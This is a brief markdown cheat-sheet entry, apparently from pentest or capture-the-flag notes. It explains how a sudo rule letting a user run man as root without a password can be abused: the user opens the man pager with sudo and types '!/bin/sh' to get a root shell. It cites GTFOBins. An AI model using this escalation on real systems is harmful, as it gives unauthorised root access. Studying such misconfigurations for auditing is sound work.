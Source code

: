 # Misconfigured sudo privileges

```text
:~$ sudo -l

(root) NOPASSWD: /usr/bin/man
```

```text
:~$sudo man man
!/bin/sh
```

see here : <https://gtfobins.github.io/gtfobins/man/>